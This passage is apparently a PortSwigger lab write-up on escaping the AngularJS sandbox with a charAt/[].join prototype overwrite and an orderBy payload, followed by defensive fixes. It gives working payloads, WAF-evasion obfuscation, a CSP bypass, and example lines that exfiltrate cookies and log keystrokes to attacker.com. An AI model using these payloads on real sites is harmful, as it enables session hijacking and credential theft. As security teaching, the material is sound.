         → Sandbox broken
         → orderBy evaluates payload
         → alert(1) executes! 💥
         ↓
Step 10: Lab solved! 🎉
```

---

## 🔬 **Technical Deep Dive**

### **How the Exploit Works Internally**

```js
Detailed execution breakdown:

Phase 1: Page Load
Browser requests:
GET /?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

Server responds with HTML:
<div ng-app>
    Search: {{$root.search}}
</div>

AngularJS initializes:
1. Finds ng-app directive
2. Compiles template
3. Looks for {{...}} expressions
4. Prepares to evaluate

Phase 2: Parameter Parsing
URL parameters parsed by AngularJS:
$root.search = the full parameter string

Phase 3: Template Compilation
AngularJS sees:
{{$root.search}}

Needs to evaluate:
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

Parses as JavaScript expression!

Phase 4: Expression Evaluation

Part 1: Initial value
1
└── Just the number 1

Part 2: charAt overwrite
&toString().constructor.prototype.charAt=[].join
         ↓
Evaluates:
toString() → String from scope's toString method
.constructor → String constructor
.prototype → String.prototype object
.charAt → charAt function
=[].join → Assignment! (Array.prototype.join)

Result:
String.prototype.charAt = Array.prototype.join
         ↓
Every string now has broken charAt! 💥

Effect on sandbox:
Before: "test".charAt(0) → "t"
After:  "test".charAt(0) → Array.prototype.join.call("test", 0)
      → joins ["t","e","s","t"] with separator "0"
      → "t0e0s0t"  (not "t" !)

Sandbox checks fail:
ensureSafeMemberName("__proto__")
         ↓
if ("__proto__".charAt(0) === '_')
         ↓
Array.prototype.join.call("__proto__", 0) === '_'
         ↓
"_0_0p0r0o0t0o" === '_' → false
         ↓
Check passes! Sandbox broken! ✓

Part 3: Semicolon separator
;
└── Statement separator in JavaScript
    └── Separates charAt assignment from next part

Part 4: Array creation
[1]
└── Array with single element
    └── Needed for orderBy filter

Part 5: Pipe to orderBy
|orderBy:
└── AngularJS pipe syntax
    └── Sends [1] to orderBy filter

Part 6: orderBy argument
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         ↓
Evaluates:
toString() → String from scope
.constructor → String constructor
.fromCharCode(...) → String.fromCharCode(120,61,97,108,101,114,116,40,49,41)

Character codes:
120,61,97,108,101,114,116,40,49,41
 x  =  a  l  e  r  t  (  1  )

Result: "x=alert(1)"

Part 7: orderBy evaluation
orderBy filter receives:
- Array: [1]
- Expression: "x=alert(1)"

orderBy processes:
For each element in [1]:
    Evaluate expression "x=alert(1)"
              ↓
    This is a JavaScript assignment!
              ↓
    x = alert(1)
              ↓
    Executes alert(1)! 💥
              ↓
    Returns result to x

Part 8: Assignment
=1
└── Assigns result to 1
    └── Completes the expression
        └── Valid JavaScript! ✓

Phase 5: Alert Execution
alert(1) called
         ↓
Browser shows popup:
┌────────────────────────┐
│ This page says:        │
│                        │
│ 1                      │
│                        │
│        [OK]            │
└────────────────────────┘

Phase 6: Lab Detection
PortSwigger backend:
- Detects alert() execution
- Marks lab as solved
- Shows congratulations banner! 🎉
```

### **Why Each Component is Necessary**

```js
Component analysis:

1. toString()
   - Required: Yes
   - Purpose: Get a string object without writing a string literal
   - Why: The lab disallows string literals in expressions;
           toString() on the scope gives us a string indirectly
   - Alternative: None clean for this context
   - Consequence if removed: Can't access String constructor

2. .constructor
   - Required: Yes
   - Purpose: Access String constructor from any string
   - Why: Need fromCharCode and prototype access
   - Alternative: window.String (blocked by sandbox)
   - Consequence if removed: No access to String methods

3. .prototype
   - Required: Yes (for charAt overwrite)
   - Purpose: Access String.prototype globally
   - Why: Need to modify charAt for ALL strings
   - Alternative: None
   - Consequence if removed: Sandbox not broken

4. .charAt=[].join
   - Required: Yes
   - Purpose: Break sandbox charAt checks
   - Why: Sandbox uses charAt(0) for member name validation
   - Alternative: [].pop, [].shift, [].push, or any non-charAt function
   - Consequence if removed: Sandbox blocks execution

5. ; (semicolon)
   - Required: Yes
   - Purpose: Separate statements
   - Why: JavaScript syntax requirement
   - Alternative: None
   - Consequence if removed: Syntax error

6. [1]
   - Required: Yes
   - Purpose: Array input for orderBy
   - Why: orderBy needs an array to process
   - Alternative: Any array ([2], [123], etc.)
   - Consequence if removed: orderBy doesn't execute

7. |orderBy:
   - Required: Yes
   - Purpose: Execute expression as code
   - Why: orderBy evaluates arbitrary expressions per element
   - Alternative: Other evaluating filters (less reliable)
   - Consequence if removed: No code execution

8. fromCharCode(...)
   - Required: Yes
   - Purpose: Build string payload without string literals
   - Why: String literals are disallowed in expression context
   - Alternative: None for this constraint
   - Consequence if removed: Can't create payload

9. =1 at end
   - Required: Yes
   - Purpose: Complete the assignment expression
   - Why: JavaScript syntax
   - Alternative: =2, =true, etc.
   - Consequence if removed: Syntax error

Each component is critical!
Remove any one → Exploit fails! ⚠️
```

### **Sandbox Bypass Mechanics**

```js
Understanding the bypass in detail:

Normal sandbox flow:

User input: {{constructor.constructor('alert(1)')()}}
         ↓
AngularJS parser:
1. Parse expression
2. Identify dangerous patterns
3. Rewrite code
4. Add safety checks

Safety checks:
ensureSafeMemberName("constructor")
         ↓
if (name.charAt(0) === '_' || name.charAt(0) === '$')
         ↓
'c' !== '_' and 'c' !== '$'
         ↓
Continue checking...
         ↓
Is "constructor" allowed?
         ↓
No! Blocked! ❌

Our bypass flow:

Step 1: Overwrite charAt globally
String.prototype.charAt = Array.prototype.join
         ↓
Now ALL strings use broken charAt

Step 2: Sandbox tries to check
ensureSafeMemberName("constructor")
         ↓
if ("constructor".charAt(0) === '_')
         ↓
But charAt is now Array.prototype.join!
         ↓
Array.prototype.join.call("constructor", 0)
         ↓
Returns joined string of chars with "0" as separator
         ↓
"c0o0n0s0t0r0u0c0t0o0r" !== '_' → Check passes! ✓

Step 3: Sandbox is broken
All charAt(0) checks return wrong values
         ↓
Sandbox thinks everything is safe
         ↓
Allows dangerous operations! 💥

The clever trick:
└── Sandbox relies on charAt working correctly
    └── We break charAt fundamentally via prototype
        └── All security checks fail open
            └── Everything becomes "safe"! ✓

Why [].join specifically:

Array.prototype.join behavior:
- Joins array elements into string
- Signature: arr.join(separator)
- When called on a string (array-like):
  treats each char as element, argument as separator
- Returns joined string of all characters, NOT a single character
- Perfect for breaking charAt logic!

The prototype pollution:

String.prototype.charAt = Array.prototype.join
         ↓
All strings globally now have broken charAt
         ↓
Sandbox broken for entire page execution! 💥

Affects:
✓ All existing strings
✓ All future strings
✓ Every charAt call on every string
✓ Entire AngularJS sandbox! ✓

This is why the bypass works:
One prototype modification
         ↓
Breaks all sandbox checks
         ↓
Complete bypass! 🎉
```

---

## 🚀 **Attack Variations**

### **Variation 1: Different Payloads**

```javascript
Alert with different content:

Original: x=alert(1)
Codes: 120,61,97,108,101,114,116,40,49,41

Variation 1: alert(document.domain)
Characters: a l e r t ( d o c u m e n t . d o m a i n )
Codes: 97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41

Payload:
?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1

Variation 2: alert(document.cookie)
Characters: a l e r t ( d o c u m e n t . c o o k i e )
Codes: 97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41

Payload:
?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41)=1

Variation 3: Multiple statements
Characters: x = a l e r t ( 1 ) ; y = a l e r t ( 2 )
Codes: 120,61,97,108,101,114,116,40,49,41,59,121,61,97,108,101,114,116,40,50,41

Creates: "x=alert(1);y=alert(2)"
Result: Two alerts!

Tools to generate character codes:

JavaScript console:
'x'.charCodeAt(0) → 120
'='.charCodeAt(0) → 61
'a'.charCodeAt(0) → 97

Python:
','.join(str(ord(c)) for c in "x=alert(1)")
→ "120,61,97,108,101,114,116,40,49,41"
```

---

### **Variation 2: Alternative charAt Replacements**

```javascript
Instead of [].join, use other functions:

Option 1: [].pop
?search=1&toString().constructor.prototype.charAt%3d[].pop;...

Why it works:
- pop removes last array element
- Called on string as array-like: Returns undefined
- charAt(0) returns undefined, not "_"
- Breaks charAt checks! ✓

Option 2: [].shift
?search=1&toString().constructor.prototype.charAt%3d[].shift;...

Why it works:
- shift removes first array element
- Called on string: Returns undefined
- Breaks charAt checks! ✓

Option 3: [].push
?search=1&toString().constructor.prototype.charAt%3d[].push;...

Why it works:
- push adds element to array
- Called on string: Returns a numeric length, not a character
- Breaks charAt checks! ✓

All achieve same goal:
└── Make charAt NOT return the correct character
    └── Sandbox checks fail open
        └── Bypass successful! ✓
```

---

### **Variation 3: Different Filters**

```javascript
Instead of orderBy, try other filters:

Option 1: orderBy (original)
[1]|orderBy:payload
└── Most reliable
    └── Evaluates expressions per element
        └── Best choice! ✓

Option 2: filter with $eval-like behavior
[1,2,3]|filter:payload
└── Less reliable
    └── Might work in some versions

Option 3: Chained filters
[1]|orderBy:payload|limitTo:1
└── Extra filter for obfuscation
    └── Same execution
        └── More complex! 💡

The key insight:
└── orderBy is the most reliable
    └── Specifically evaluates expressions per element
        └── Perfect for exploitation! ✓
```

---

### **Variation 4: Obfuscation Techniques**

```javascript
Make the payload harder to detect:

Technique 1: Split fromCharCode calls
Instead of: fromCharCode(120,61,97,108,101,114,116,40,49,41)
Use: fromCharCode(120,61,97)+fromCharCode(108,101,114,116,40,49,41)
Result: "x=a" + "lert(1)" = "x=alert(1)"

Technique 2: Use different variable name
Instead of: x=alert(1)
Use: z=alert(1) or _=alert(1)
Any variable name works!

Technique 3: Encode the numbers in hex
Instead of: 120,61,97,108,101,114,116,40,49,41
Use: 0x78,0x3d,0x61,0x6c,0x65,0x72,0x74,0x28,0x31,0x29
Same values, hex notation!

Technique 4: Add more array elements
[1,2,3]|orderBy:payload
Instead of [1]:
More elements don't change execution.

Goal of obfuscation:
✓ Bypass WAF pattern matching
✓ Evade detection rules
✓ Confuse automated scanners
✓ But still execute! ✓
```

---

### **Variation 5: Multi-Step Attacks**

```javascript
Use the bypass for more than just alert:

Step 1: Establish bypass
?search=1&toString().constructor.prototype.charAt%3d[].join;...

Step 2: Exfiltrate cookies
Payload: document.location='https://attacker.com/?c='+document.cookie
Convert payload to fromCharCode codes

Step 3: Steal credentials
Payload: Create fake login form
Capture input and send to attacker

Step 4: Keylogger installation
Payload: document.onkeypress=e=>fetch('attacker.com',{body:e.key})
Set up persistent monitoring

Step 5: Session hijacking
Payload: Steal session token
Send to attacker server
Attacker gains access!

Multi-stage exploitation:
1. Bypass sandbox → alert(1) ✓
2. Confirm vulnerability
3. Deploy real payload
4. Exfiltrate data
5. Maintain access! 💀
```

---

### **Variation 6: CSP Bypass Extension**

```javascript
If Content Security Policy is present:

CSP might block:
- Inline scripts
- eval()
- Function constructor
- External scripts

But AngularJS-based bypass can still work:

Method 1: Use ng-focus event
<input id=x ng-focus=$event.path|orderBy:payload>#x

Why it works:
- ng-focus is AngularJS directive
- $event.path contains DOM path including window
- Access window indirectly
- Bypass CSP! ✓

Method 2: Use composedPath()
ng-focus=$event.composedPath()|orderBy:payload

Why it works:
- composedPath() returns array including window
- orderBy processes it
- Indirect window access
- CSP bypassed! ✓

Complete CSP bypass:
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>#x

Execution:
1. Click triggers focus
2. composedPath() returns path array
3. orderBy evaluates expression
4. (z=alert)(1) executes
5. Alert pops! Even with CSP! 💥
```

---
---

## 🛡️ **Defensive Measures**

---

### **How to Prevent This Attack**

```js
Defense Layer 1: Don't Use Old AngularJS

✅ BEST SOLUTION - Upgrade or migrate:

Current status:
AngularJS 1.x → End of Life (EOL)
Support ended: January 1, 2022
Security updates: None

Recommendation:
├── Migrate to modern Angular (2+)
├── Or migrate to React, Vue, Svelte
├── Or use vanilla JavaScript
└── Don't use AngularJS 1.x! ⚠️

Why modern frameworks are safer:
✓ No sandbox (don't pretend client-side security)
✓ Better separation of concerns
✓ Proper sanitization built-in
✓ Active security support
✓ Regular updates! ✓

Migration paths:
AngularJS 1.x → Angular 2+ (Official upgrade path)
AngularJS 1.x → React (Component rewrite)
AngularJS 1.x → Vue (Similar patterns)
AngularJS 1.x → Vanilla JS (No framework)

Defense Layer 2: Never Embed User Input in Templates

✅ SECURE - Avoid template injection:

Vulnerable pattern:
<div ng-app>
    You searched for: {{$root.search}}
</div>

Why vulnerable:
└── User input directly in template expression
    └── AngularJS evaluates it
        └── Can inject malicious code! ❌

Secure pattern:
<div ng-app>
    <span ng-bind="search"></span>
</div>

Why secure:
└── ng-bind doesn't evaluate expressions
    └── Treats input as plain text
        └── No code execution! ✓

Even better:
<div ng-app>
    <span>{{$sanitize(search)}}</span>
</div>

Uses AngularJS sanitization:
└── Strips dangerous content
    └── Escapes HTML
        └── Prevents injection! ✓

Defense Layer 3: Content Security Policy

✅ SECURE - Implement strict CSP:

CSP header:
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self' 'nonce-RANDOM123'; 
    object-src 'none';

What this blocks:
├── Inline scripts (includes AngularJS expressions)
├── eval() and Function()
├── External scripts from untrusted domains
└── Most XSS vectors! ✓

Note for AngularJS:
└── CSP can still be bypassed with ng-focus tricks
    └── Use CSP as one layer, not the only layer
        └── Must also fix root cause (see Layer 1/2)! ⚠️

Defense Layer 4: Input Validation

✅ SECURE - Whitelist allowed input:

Server-side validation:
function validateSearch(input) {
    // Allow only alphanumeric and spaces
    if (!/^[a-zA-Z0-9\s]{1,100}$/.test(input)) {
        return '';  // Reject
    }
    return input;
}

What this blocks:
├── {{ and }} (template syntax)
├── Special characters
├── Code injection attempts
└── Most payloads! ✓

Whitelist approach:
✓ Define what IS allowed
✓ Reject everything else
✓ More secure than blacklist
✓ Harder to bypass! ✓

Defense Layer 5: Output Encoding

✅ SECURE - Encode for HTML context:

Server-side encoding:
function encodeForHTML(input) {
    return input
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#x27;')
        .replace(/\//g, '&#x2F;');
}

Result:
{{7*7}}
         ↓
&lcub;&lcub;7*7&rcub;&rcub;
         ↓
Displays as: {{7*7}}
Not evaluated! ✓

Defense Layer 6: Disable AngularJS Expression Evaluation

✅ SECURE - Use ng-bind instead of {{}}:

Vulnerable:
<div>{{userInput}}</div>

Secure:
<div ng-bind="userInput"></div>

Why ng-bind is safer:
└── Doesn't evaluate expressions
    └── Just binds value as text
        └── Treats as plain text! ✓

Even better - ng-bind-html with sanitization:
<div ng-bind-html="userInput | sanitize"></div>

Custom sanitize filter:
app.filter('sanitize', ['$sce', function($sce) {
    return function(input) {
        // Strip all HTML and expressions
        return $sce.trustAsHtml(
            String(input).replace(/<[^>]+>/g, '')
        );
    };
}]);

Defense Layer 7: Server-Side Rendering

✅ SECURE - Generate HTML server-side:

Instead of:
<div ng-app>{{search}}</div>

Do:
<div>You searched for: <?= htmlspecialchars($search) ?></div>

Benefits:
✓ No client-side template injection
✓ Server controls all output
✓ Proper encoding applied
✓ No AngularJS evaluation! ✓

Defense Layer 8: Template Precompilation

✅ SECURE - Compile templates separately:

Instead of runtime compilation:
// Vulnerable: Runtime template with user data
var html = '<div>{{userInput}}</div>';
$compile(html)($scope);

Use precompiled templates:
<!-- template.html (defined at build time) -->
<div ng-bind="userInput"></div>

// Load precompiled
$templateCache.put('safe', templateContent);

Why safer:
└── Templates defined at build time
    └── User input can't modify template structure
        └── Only binds data! ✓

Defense Layer 9: Security Headers

✅ SECURE - Multiple security headers:

X-Frame-Options: DENY
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: strict-origin-when-cross-origin

Combined with CSP:
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self';

Defense in depth:
└── Multiple layers
    └── If one fails, others protect
        └── Maximum security! 🛡️

Defense Layer 10: Regular Security Audits

✅ RECOMMENDED - Continuous monitoring:

Automated scanning:
├── Burp Suite scanner
├── OWASP ZAP
├── Custom scripts
└── CI/CD integration

Manual testing:
├── Penetration testing
├── Code review
├── Security consultants
└── Bug bounty program

Stay updated:
✓ Follow security advisories
✓ Monitor CVEs
✓ Update dependencies
✓ Patch quickly! ✓

Complete Defense Strategy:

Priority 1: Stop using AngularJS 1.x
Priority 2: Never embed user input in templates
Priority 3: Implement strict CSP
Priority 4: Input validation + output encoding
Priority 5: Regular security testing

All layers together = Maximum protection! 🛡️
```

### **Secure Code Example**

```python
# ✅ SECURE - Complete implementation without AngularJS

from flask import Flask, request, escape
import re

app = Flask(__name__)

def validate_search(query):
    """
    Strict input validation
    """
    # Allow only safe characters
    if not re.match(r'^[a-zA-Z0-9\s]{0,100}$', query):
        return None
    return query

def encode_for_html(text):
    """
    HTML encode all output
    """
    return (text
        .replace('&', '&amp;')
        .replace('<', '&lt;')
        .replace('>', '&gt;')
        .replace('"', '&quot;')
        .replace("'", '&#x27;'))

@app.route('/search')
def search():
    # Get and validate input
    query = request.args.get('search', '')
    safe_query = validate_search(query)
    
    if safe_query is None:
        safe_query = ''
    
    # Encode for HTML output
    encoded_query = encode_for_html(safe_query)
    
    # Return secure HTML (NO AngularJS!)
    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self' 'nonce-abc123'">
        <meta charset="UTF-8">
        <title>Search Results</title>
    </head>
    <body>
        <h1>Search Results</h1>
        <p>You searched for: {encoded_query}</p>
        
        <!-- NO AngularJS expressions! -->
        <!-- NO {{}} syntax! -->
        <!-- Pure HTML only! -->
        
        <script nonce="abc123">
            // If JavaScript needed, use safe methods
            const query = {repr(safe_query)};
            console.log('Safe query:', query);
        </script>
    </body>
    </html>
    """

# Security headers
@app.after_request
def add_security_headers(response):
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-XSS-Protection'] = '1; mode=block'
    response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'"
    return response

if __name__ == '__main__':
    app.run()

# Why this is secure:
# ✅ No AngularJS (no template injection possible)
# ✅ Input validation (rejects dangerous input)
# ✅ Output encoding (HTML entities)
# ✅ CSP headers (blocks inline scripts)
# ✅ Security headers (defense in depth)
# ✅ Server-side rendering (no client-side templates)
# ✅ Multiple protection layers! 🛡️

# Our attack would fail because:
# 1. No AngularJS → No template evaluation
# 2. Input validation → Blocks {{}} syntax
# 3. Output encoding → Shows literal text
# 4. CSP → Blocks unauthorized scripts
# 5. No sandbox to bypass! ✓
```

---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Never Put User Input in AngularJS Expressions (Best)**

```html
<!-- ❌ VULNERABLE - User input in {{ }} -->
<div ng-app>
    <h1>Search results for '{{searchQuery}}'</h1>
</div>

<!-- ✅ SECURE - User input bound as text, not expression -->
<div ng-app>
    <h1>Search results for '<span ng-bind="searchQuery"></span>'</h1>
</div>

<!-- Even better: Use data binding with sanitization -->
<div ng-app ng-controller="SearchCtrl">
    <h1>Search results for '<span ng-bind="safeSearchQuery"></span>'</h1>
</div>

<script>
angular.module('myApp', [])
.controller('SearchCtrl', function($scope, $sanitize) {
    // Server provides already-sanitized input
    $scope.safeSearchQuery = SERVER_SANITIZED_INPUT;
    
    // Or sanitize client-side
    $scope.safeSearchQuery = $sanitize(userInput);
});
</script>
```

**Why this works:**

```js
The vulnerability:
└── {{userInput}} → AngularJS evaluates as expression

The fix:
└── ng-bind="userInput" → Displays as text
    └── Not evaluated as expression
        └── Just data binding
            └── Safe! ✓

Key principle:
└── Never let user input become code
    └── User input should be DATA
        └── Not EXPRESSIONS
            └── Defense by design! ✓
```

---

### **Fix 2: Migrate from AngularJS to Modern Framework**

```typescript
// ✅ SECURE - Modern Angular (2+), not AngularJS

// Component (TypeScript)
import { Component } from '@angular/core';
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';

@Component({
  selector: 'app-search',
  template: `
    <h1>Search results for '{{ searchQuery }}'</h1>
  `
})
export class SearchComponent {
  searchQuery: string;
  
  constructor(private sanitizer: DomSanitizer) {
    // Get user input
    this.searchQuery = getUserInput();
    
    // Modern Angular automatically escapes template interpolation
    // No expression evaluation like AngularJS sandbox
  }
}
```

**Benefits:**

```
Modern Angular (2+):
✅ No client-side expression evaluation
✅ Automatic HTML escaping in templates
✅ No sandbox (not needed — it's safe by design)
✅ Secure by default

React:
✅ Automatic escaping in JSX
✅ No expression evaluation
✅ Explicit dangerouslySetInnerHTML for HTML

Vue:
✅ Automatic escaping
✅ v-text for safe text insertion
✅ v-html explicitly marked as dangerous

All modern frameworks:
└── Learned from AngularJS mistakes
    └── Don't evaluate user input as code
        └── Safe by design! ✓
```

---

### **Fix 3: Strict CSP Headers**

```python
# ✅ SECURE - CSP that restricts script execution

from flask import Flask, Response

app = Flask(__name__)

@app.after_request
def add_csp_header(response):
    # Very strict CSP
    response.headers['Content-Security-Policy'] = (
        "default-src 'none'; "
        "script-src 'self'; "
        "style-src 'self'; "
        "img-src 'self'; "
        "connect-src 'self'; "
        "frame-src 'none'; "
        "object-src 'none';"
    )
    return response

# This blocks:
# └── Inline scripts (no 'unsafe-inline')
#     └── Restricts AngularJS template evaluation
#         └── External script loading
#             └── Mitigates many AngularJS XSS vectors! ✓

# IMPORTANT CAVEAT:
# CSP alone is not sufficient for AngularJS apps.
# The ng-focus/composedPath() bypass can still work.
# CSP should be used alongside removing user input from
# AngularJS template expressions (Fix 1) or migrating
# away from AngularJS entirely (Fix 2).
```

---
